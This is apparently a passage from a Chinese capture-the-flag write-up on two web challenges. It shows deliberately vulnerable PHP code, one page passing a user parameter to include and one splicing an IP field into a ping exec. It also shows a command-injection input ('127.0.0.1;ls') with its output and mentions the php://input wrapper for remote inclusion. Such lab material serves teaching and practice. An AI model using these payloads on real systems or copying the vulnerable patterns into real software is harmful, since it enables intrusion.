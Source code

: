#### 远程包含

题目：

```
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag?<br>
<a href="phpinfo.php">phpinfo</a>
i don't have shell, how to get flag?
phpinfo 
```

也是：?file=来进行传参

让我看phpinfo文件，因为根据前面题总结的经验只要这个allow_url_include = On是开的就可以利用php://伪协议，点开phpinfo发现确实是开的，所以抓包试试，success

此题目和php://input做法一样

### 命令注入

题目：

```
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $cmd = "ping -c 4 {$_GET['ip']}";
    exec($cmd, $res);
}
?> 
```

输入框打入：127.0.0.1;ls

得到

```
Array
(
    [0] => PING 127.0.0.1 (127.0.0.1): 56 data bytes
    [1] => 24024115330223.php
    [2] => index.php
) 
```
